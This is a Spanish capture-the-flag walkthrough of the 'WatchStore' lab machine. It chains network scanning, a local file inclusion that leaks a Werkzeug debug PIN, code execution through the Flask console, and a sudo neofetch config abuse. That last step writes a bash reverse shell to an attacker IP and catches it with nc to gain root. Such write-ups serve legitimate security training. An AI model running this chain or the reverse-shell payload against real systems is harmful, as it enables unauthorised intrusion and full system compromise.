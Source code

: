 # WatchStore | TheHackersLabs
## 🔍 1. Reconocimiento de red
Escaneo ARP para identificar hosts activos en la red local:
```bash
sudo arp-scan -I eth0 --localnet
```
Respuesta interesante:
```bash
192.168.1.97    a4:2b:8c:e4:f5:bc    (Unknown)
```
Verificación de conectividad:
```bash
ping -c 1 192.168.1.97
```

## 🔎 2. Descubrimiento de servicios con Nmap
```bash
nmap -p- --open -sS -sC -sV --min-rate=5000 -Pn 192.168.1.97 -oN escaneo.txt
```
Puertos abiertos:
```text
22/tcp → OpenSSH 9.2p1
8080/tcp → Werkzeug httpd 2.1.2 (Python 3.11.2)
```

## 🌐 3. Acceso al servicio web
En el navegador:
- http://192.168.1.97:8080 redirige a http://watchstore.thl:8080.
Se añade la entrada en /etc/hosts:
```text
192.168.1.97    watchstore.thl
```

## 🧪 4. Fuzzing de rutas con ffuf
```bash
ffuf -u http://watchstore.thl:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt,.bak -mc 200,204,301,302,307,403
```
Resultado:
- Rutas interesantes:
```text
/console
/read
```

## 🔐 5. Ruta /console: consola Flask protegida con PIN
Aparece protegida por un PIN.

## 🕵️‍♂️ 6. LFI en /read?id=
Ruta vulnerable:
```text
/read?id=/etc/passwd
```
Lectura exitosa. Se detecta el usuario relox.

Luego, se lee el código fuente:
```text
/read?id=/home/relox/watchstore/app.py
```

Y se obtiene el PIN:
```text
os.environ['WERKZEUG_DEBUG_PIN'] = '612-791-734'
```

## 🧑‍💻 7. Acceso a consola interactiva Flask
- Se accede a /console y se desbloquea con el PIN.
- Desde ahí se ejecutan comandos como usuario relox.

## 📂 8. Lectura de primera flag
```bash
print(open("/home/relox/user.txt").read())
```
Se obtiene una flag de usuario.

## 🔓 9. Escalada de privilegios con sudo -l
```bash
print(os.popen("sudo -l").read())
```
Salida:
```text
(root) NOPASSWD: /usr/bin/neofetch
```

## 💣 10. Explotación de neofetch
Crear script malicioso:
```bash
with open("/tmp/root.sh", "w") as f:
    f.write("#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.109/4444 0>&1\n")

os.system("chmod +x /tmp/root.sh")
```
Crear archivo de configuración:
```bash
with open("/home/relox/.config/neofetch/config.conf", "w") as f:
    f.write("print_info() {\n    /tmp/root.sh\n}\nprint_info")
```

## 🛰️ 11. Obtener shell reverse como root
En la máquina atacante:
```bash
nc -lvnp 4444
```
Desde la consola Flask:
```bash
os.system("sudo XDG_CONFIG_HOME=/home/relox/.config neofetch")
```
✅ Se obtiene acceso como root.

## 🏁 12. Captura de la flag final
```bash
cat /root/root.txt
```

## ✅ Conclusión
- El reto se resuelve combinando:
- LFI → para leer archivos sensibles
- Desbloqueo de consola Flask → RCE en servidor
- sudo mal configurado → neofetch con configuración modificable
- Reverse shell → acceso root remoto

